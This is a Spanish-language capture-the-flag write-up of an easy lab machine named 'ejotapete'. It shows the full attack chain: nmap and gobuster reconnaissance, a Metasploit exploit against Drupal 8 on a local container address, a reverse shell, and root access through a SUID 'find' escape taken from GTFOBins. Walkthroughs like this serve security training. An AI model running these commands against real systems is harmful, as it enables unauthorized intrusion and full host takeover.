






# Máquina ejotapete

---

Dificultad -> Fácil

---

Epezamos con un nmap para ver puerto abiertos

```shell
nmap -p- --open -sCV --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: 403 Forbidden
```

Solo el puerto 80 abierto, asi que entro desde el navegador

Desde el navaegador me devuelve 403 Forbidden asi que busco directorios con gobuster:

```shell
/drupal               (Status: 301) [Size: 309] [--> http://172.17.0.2/drupal/]
/server-status        (Status: 403) [Size: 298]
```

Encuentro un drupal en `/drupal` 

Con whatweb miro la version de drupal y veo que es un drupal 8:



Me meto a `msfconsole` y busco exploits para drupal 8:



Utilizo la primera opción con `use 0` 

Mirando las opciones, solo cambio el host y la uri y lo ejecuto:

```shell
set RHOSTS 172.17.0.2
set TARGETURI /drupal
exploit
```



Veo que el exploit funciona y con `shell` abro una consola, 



Aquí, para operar más facil, ejecuto una revshell y hago [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/#) 

Ahora, con una terminal cómo, para esacalar privilegios, busco binarios con permisos SUID y encuentro find:

```shell
find / -perm -4000 2>/dev/null
```



Busco en [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) y ejecuto:

```shell
/usr/bin/find . -exec /bin/sh \; -quit
```



Y con esto somos root :)
